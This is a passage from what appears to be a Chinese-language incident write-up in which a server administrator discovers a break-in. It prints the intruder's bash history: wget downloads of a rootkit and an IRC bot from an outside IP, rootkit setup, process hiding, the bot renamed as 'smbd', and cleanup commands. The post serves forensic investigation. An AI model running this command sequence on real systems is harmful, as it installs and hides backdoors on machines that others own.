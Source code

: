 很不幸的发现,"ls"又出问题了.同样,用"alias"命令:

	root@server1:~# alias ls
	alias ls='ls -sa --color=auto'
	root@server1:~# unalias ls
	root@server1:~# ls
	root@server1:~#

这个时候,我才意识到问题的严重性."ls"奇怪的举动和"/var/log/"大量日志被删除让我怀疑服务器是否被入侵了.当我看到root目录下的".bash_history"时,就已经可以确定被入侵了.

	root@server1:~# cat -n .bash_history
	...
	340  w
	341  cd /var
	342  wget http://83.19.148.250/~matys/pliki/shv5.tar.gz
	343  tar -zxf shv5.tar.gz
	344  rm -rf shv5.tar.gz
	345  mv shv5 .x
	346  cd .x
	347  ./setup zibi.joe.149 54098
	348  passwd
	349  passwd
	350  ps aux
	351  crontab -l
	352  cat /etc/issue
	353  cat /etc/passwd
	354  w
	355  who
	356  cd /usr/lib/libsh
	357  ls
	358  hide +
	359  chmod +x hide
	360  hide +
	361  ./hide +
	362  cd /var/.x
	363  mkdir psotnic
	364  cd psotnic
	365  wget http://83.19.148.250/~matys/pliki/psotnic0.2.5.tar.gz
	366  tar -zxf psotnic0.2.5.tar.gz
	367  rm -rf psotnic0.2.5.tar.gz
	368  ls
	369  mv psotnic-0.2.5-linux-static-ipv6 synscan
	370  ./synscan
	371  vi conf
	372  vi conf1
	373  mv synscan smbd
	374  smbd -c conf
	375  ls
	376  ps aux
	377  ls
	378  ./smbd -c conf
	379  ./smbd -c conf1
	380  ./smbd conf
	381  ./smbd conf1
	382  ./smbd -a conf conf1
	383  rm -rf conf.dec
	384  rm -rf conf1.dec
	385  cd /usr/lib/libsh
	386  ./hide +
	387  exit
	...
	425  ssh ftp@62.101.251.166
	426  w
	427  ls